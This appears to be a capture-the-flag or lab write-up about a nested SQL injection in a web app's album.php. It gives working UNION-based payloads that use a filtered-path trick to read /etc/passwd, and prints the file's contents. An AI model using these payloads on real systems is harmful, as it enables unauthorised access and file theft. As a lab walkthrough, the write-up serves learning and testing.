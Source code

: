![Screenshot From 2025-04-29 12-03-46.png](img1.png)

![Screenshot From 2025-04-29 12-02-44.png](img2.png)

## Vulnerability Scanning

[Exploit-DB,](https://www.exploit-db.com/)        [CVE Details,](https://www.cvedetails.com/)    [ZeroDay Initiative (ZDI),](https://www.zerodayinitiative.com/)           [Exploit Tracker,](https://www.exploittracker.net/)          [Metasploit Exploit Database](https://docs.metasploit.com/docs/using-metasploit/interfacing/metasploit-module-library.html)

### Nested SQL Injection

First of all, we know that the query we inject into, **`SELECT id from albums where short_tag = '<short_tag>'`**, simply fetches the album `id` from the `albums` table. However, if we look at the output of **album.php** with a valid `short_tag`, we can see that the page also displays the `paths` for the images, which are stored in the `images` table.

We don’t know if the application exactly works this way, but we can simply test it. First, using a payload like `jxf' UNION SELECT 0-- -` on the `short_tag` variable for **album.php** with the request `http://10.10.152.169/album.php?short_tag=jxf' UNION SELECT 0-- -`, we can see that we are able to control the `album_id` returned by the query.

![image.png](img3.png)

Now, instead of an `id`, with a payload like `jxf' UNION SELECT "0 OR 1=1-- -"-- -`, we can make the first query return **`0 OR 1=1-- -`** 

![Screenshot From 2025-05-01 05-03-07.png](img4.png)

![Screenshot From 2025-05-01 05-19-37.png](img5.png)

![Screenshot From 2025-05-01 05-10-17.png](img6.png)

Now, trying to set the `path` as `/etc/passwd` to force **album.php** to calculate the hash for this path and use it at **/image.php** to read it, with the payload `jxf' UNION SELECT "0 UNION SELECT 1,2,'/etc/passwd'-- -"-- -`, we once again encounter the **Hacking attempt** error, as `/` is a filtered character.

![Screenshot From 2025-05-01 05-07-51.png](img7.png)

## successfully able to include the `/etc/passwd` file download and read its contents.

```jsx
└─$ ls
image.php
                                                                             
┌──(neo㉿neo)-[~/pro/m]
└─$ cat image.php   
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```